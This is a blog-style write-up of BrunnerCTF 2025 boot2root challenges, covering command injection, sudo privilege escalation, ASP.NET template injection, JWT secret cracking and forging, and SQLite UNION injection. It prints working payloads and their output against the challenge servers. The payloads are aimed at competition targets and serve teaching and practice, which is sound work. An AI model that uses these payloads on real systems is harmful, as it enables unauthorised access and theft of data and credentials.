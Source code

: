 ```yaml
---
layout: post
title:  "Brunner 2025 Boot2Root Challenges"
date:   2025-08-24 22:43:10 -0400
author: robo.uzi
tags: [CTF, boot2root]
permalink: /brunnerctf-2025-boot2root/
---
```

* TOC
{:toc}

## Caffeine (User)
**Category:** Boot2root

**Difficulty:** Beginner  
**Author:** Quack

This new coffee shop recently opened and you've been waiting too long for your daily caffeine _injection_! Can you find a way to see a little more than just your order status?

> Boot2root challenges are about privilege escalation, normally from a low-privilege user to administrator, or "root". The initial access is often from a web application and typically involve getting a reverse shell or some other remote code execution (RCE) on a server. From there, the point is to get root access on the system. These challenges are split into two parts: user and root. They can only be solved in order.

_The user flag is in a file called `user.txt`._
Note: The series continues in `Caffeine (Root)`.

I visit the site and see it is for placing coffee orders and checking the order status. You can make a POST request when ordering, and a GET request to check order status. 

After some testing I try this: `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=135|id`. In the output I see `uid=33(www-data) gid=33(www-data) groups=33(www-data)`. Good we have RCE. 

Visit `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=135|cat%20user.txt` and get the flag `brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}`.

___

## Caffeine (Root)
**Category:** Boot2root

**Difficulty:** Beginner  
**Author:** Quack
{% raw %}
Now that you have access to their system, is there any way you can escalate your privileges and read the final flag?

_The root flag is located in `/root/root.txt`_.

I run `ls -la` and see there is a hint. I run `cat hint.txt` and see: Are there any files you *sudo'ent* (shouldn't) be able to run as a normal user?

Search for suids with `find / -perm /u=s -type f 2>/dev/null`. 

`https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=127|sudo -l` shows:
```
### Order Status for #127|sudo -l

Matching Defaults entries for www-data on ctf-caffeine-user-cdb336a4ada8363d-cb5d99db8-9pght:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-cdb336a4ada8363d-cb5d99db8-9pght:
    (ALL) NOPASSWD: /usr/local/bin/brew
```

Visit `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=127|sudo%20/usr/local/bin/brew%20/root/root.txt` and get the flag:
```
### Order Status for #127|sudo /usr/local/bin/brew /root/root.txt

   ( (
    ) )
   ( (
  .-'--.
  |◉.◉|  
  |    |  
  '~~~~'  
   ROOT PRIVILEGES DETECTED
   JavaJack's *Special Reserve* Brew

  Brewing your file reading...
═══════════════════════════════════════════════
brunner{5uD0_pR1V1L3g35_T00_h0t_F0r_J4v4_J4CK!}
═══════════════════════════════════════════════

    ) )
   ( (
  .-'-.
  |‼.‼|  
  |   |  
  '~~~'  
   Root Brew Successful!

No order found with ID #127|sudo /usr/local/bin/brew /root/root.txt
```
{% endraw %}
___

## Dotwhat..? (User)
**Category:** Boot2Root

**Difficulty:** Easy-Medium  
**Author:** Quack

Tell me your favourite recipe! The user flag is in a file called `user.txt`.

The site allows you to create a new recipe with a POST request. There are 3 fields. Title, Ingredients, and Instructions. You can make a GET request to view saved recipes. In wappalyzer I see it uses ASP.NET. Looks like serverside template injection.

I test the payload `@System.IO.File.ReadAllText("../user.txt")` in the instructions field and recieve the flag: 
`brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}`.

___

## Tickets App (User)
**Category:** Boot2Root
**Difficulty:** Medium  
**Author:** ha1fdan (+ Nissen)

Man, I really wanted to see _Brunner & Bass_, but the tickets app says they're sold out! Maybe there's another way to get myself a ticket...

_The user flag is in a file called `user.txt`._

This one is an honorable mention. I did not get the flag because I didnt check `robots.txt`. I open the site and see I have a json web token (JWT) after I create an account and login. I put it into a file and crack the secret:
```shell
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
secretkey        (?)        
1g 0:00:00:00 DONE (2025-08-24 02:41) 2.222g/s 2903Kp/s 2903Kc/s 2903KC/s service0..seanmclean01  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.
```
I get the secret: `secretkey`.

When I'm logged in all I can see is my username and `Admin: False`. I create a python script to generate a jwt that allows me to become admin:
```python
import jwt

payload = {
    "user": "admin",
    "admin": True
}

secret = "secretkey"
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
Once I am admin I can search for users on the dashboard!

For example searching for `admin` makes a GET request to `https://tickets-app-user-0a24104bb2f7cad1.challs.brunnerne.xyz/api/search?name=admin`. 

Visiting that link I see: `[{"id":1,"is_admin":1,"password":"00ea23da62544a6e7f699a3a24e87044","username":"admin"}]`.

I visit my own profile and grab the password hash. Inputting it to `https://crackstation.net/` proves it is an md5 hash as I chose a simple password and it cracked it.

In the search bar `' OR 1=1 --` returns all users (me and admin). 

`' UNION SELECT NULL,NULL,NULL,NULL --` tells me there are 4 columns.

`' UNION SELECT name,NULL,NULL,NULL FROM sqlite_master WHERE type='table' --` confirms sqlite. 

`' UNION SELECT NULL,name,NULL,NULL FROM sqlite_master WHERE type='table' --`:
```
|Username|Admin Privileges|
|---|---|
|settings|No|
|sqlite_sequence|No|
|users|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,sql,NULL,NULL FROM sqlite_master --`:
```
|Username|Admin Privileges|
|---|---|
||No|
|CREATE TABLE settings ( id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT NOT NULL UNIQUE, value TEXT )|No|
|CREATE TABLE sqlite_sequence(name,seq)|No|
|CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT FALSE )|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,value,NULL,NULL FROM settings --`:
```
|Username|Admin Privileges|
|---|---|
|BrunnerCTF|No|
|Tickets App|No|
|false|No|
|jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,key,NULL,NULL FROM settings -- `:
```
|Username|Admin Privileges|
|---|---|
|api_key|No|
|ctf_name|No|
|development_mode|No|
|site_name|No|
|admin|Yes|
|uzi|No|
```

`api_key = jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0`

___
